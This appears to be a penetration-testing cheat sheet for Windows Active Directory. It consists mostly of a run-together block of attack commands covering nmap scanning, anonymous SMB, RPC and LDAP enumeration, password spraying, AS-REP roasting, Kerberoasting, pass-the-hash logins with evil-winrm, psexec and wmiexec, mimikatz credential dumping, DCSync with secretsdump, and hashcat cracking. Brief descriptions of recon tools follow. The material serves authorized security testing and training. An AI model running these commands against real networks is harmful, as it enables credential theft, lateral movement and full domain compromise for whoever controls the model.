 ```
nmap -sS -A -T4 -p- -Pn -oA full [IP]nmap -sS -sV -sC -p- -Pn -oA full [IP]rustscan -b 5000 -t 2000 --ulimit 5000 [IP] #optionally: -- [nmap flags]cme smb [IP] -u '' -p '' --shares --pass-polcme smb [IP] -u '' -p '' -X 'whoami'cme winrm [IP] -u '' -p ''smbclient -L \\\\[IP]\\smbclient \\\\[IP]\\[Share name]rpcclient -U '' [IP] #optionally: -N (do not ask for a password)ldapsearch -x -h [IP] -s base namingcontextsldapsearch -x -h [IP] -s sub -b 'DC=,DC=' > outputfile.txt#Creating a list of valid usernames retrieved from RPC:cat users.txt | awk -F\[ '{print $2}' | awk -F \] '{print $1}' > valid_users.txt#Password spraying:./kerbrute passwordspray -d [DN] --dc [DN/IP] users.txt passwordcme smb [IP] -u users.txt -p passwords.txt #optionally: --shares --pass-pol#AS-REP roast:GetNPUsers.py -dc-ip [DC IP] [DN]/[username] -no-pass hashcat.exe -m 18200 hash.txt rockyou.txt -O#Kerberoasting:GetUserSPNs.py [DN]/[username]:[password] -requestrubeus.exe kerberoast /creduser:[DN]\[username] /credpassword:[user's password] /outfile:[outfile] /format:[hashcat/john]hashcat.exe -m 13100 hash.txt rockyou.txt -O#Accessing the box:./evil-winrm.rb -i [DN/IP] -u [username] -p '[password]'./evil-winrm.rb -i [DN/IP] -u [username] -H [HASH]psexec.py -hashes [hash] [DN]/[username]@[IP]smbexec.py -hashes [hash] [DN]/[username]@[IP]wmiexec.py -hashes [hash] [DN]/[username]@[IP]psexec.py [DN]/[username]:[password]@[IP]smbexec.py [DN]/[username]:[password]@[IP]wmiexec.py [DN]/[username]:[password]@[IP]xfreerdp /u:[username] /p:[password] /v:[IP]xfreerdp /u:[username] /pth:[NT hash] /v:[IP]pth-winexe -U [DN]/[username]%[hash] //[IP] cmd#Authentication through a SSL connection:./evil-winrm.rb -S -i [DN/IP] -u [username] -p '[password]' -c [certificate file] -k [private key]#Dumping password hashes/credentials:mimikatz.exe
privilege::debug
token::elevate
lsadump::sam #or lsadump::lsa
sekurlsa::logonPasswords #to obtain credentials of currently logged users#DCSync:secretsdump.py [DN]/[username]:[password]@[DN] -dc-ip [IP] #Cracking NTLM and NTLMv2 hashes with Hashcat:#NTLM:hashcat.exe -m 1000 hash.txt wordlist.txt#NTLMv2:hashcat.exe -m 5600 hash.txt wordlist.txt
```


Useful recon tools and their description:

LDAPsearch — is a command line utility and a shell-accessible interface, which bases on ldap_search_ext(3) library call. The tool maintains a connection to the server using Lightweight Directory Access Protocol and — using specified parameters — performs querying LDAP service on our behalf¹.

RPCclient — is an utility which was created to test Microsoft Remote Procedure Call functionality in SMB/Samba. Is can be used to perform execution of client-side MS-RPC functions².

SMBclient — is an utility which can be used to access SMB/CIFS shares. It is able to communicate with SMB/CIFS servers and interact with their shares.

SMBmap — another tool which allows to access SMB shares. It allows to enumerate share drives, drive permissions and share contents. SMBmap provides also upload/download functionality.

CrackMapExec — is a tool which abuses built-in features of Active Directory. Allows us to assess the security of a Domain using its various features.

